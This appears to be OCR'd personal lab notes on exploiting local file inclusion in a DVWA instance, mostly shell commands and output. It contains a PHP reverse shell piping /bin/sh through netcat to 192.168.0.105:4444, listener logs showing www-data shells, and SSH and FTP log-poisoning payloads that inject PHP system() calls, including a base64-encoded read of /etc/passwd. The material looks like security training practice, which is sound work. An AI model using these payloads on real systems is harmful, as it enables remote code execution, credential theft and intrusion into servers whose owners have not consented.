 ```
    passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.105 4444 >/tmp/f");
?>

## SHELL
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.0.105 - - [18/Aug/2021 01:07:19] "GET /shell.php HTTP/1.0" 200 -

────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 59934
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

------------------------------------------------------
## SHELL LFI APACHE
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 60212
bash: cannot set terminal process group (35990): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debiantano:/var/www/html/dvwa/vulnerabilities/fi$ whoami
whoami
www-data
www-data@debiantano:/var/www/html/dvwa/vulnerabilities/fi$



-------------------------
# LOG POISONINF SSH

ssh "<?php system('echo Y2F0IC9ldGMvcGFzc3dkCg==|base64 -d|bash'); ?>"@192.168.0.105

NO FDUNCIONA
❯ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.105 4444 >/tmp/f"|base64 -w0;echo
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjEwNSA0NDQ0ID4vdG1wL2YK



------------------------------
## log poisoning ftp



SHELL
❯ ftp 192.168.0.105
Connected to 192.168.0.105.
220 (vsFTPd 3.0.3)
Name (192.168.0.105:noroot): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 43426
```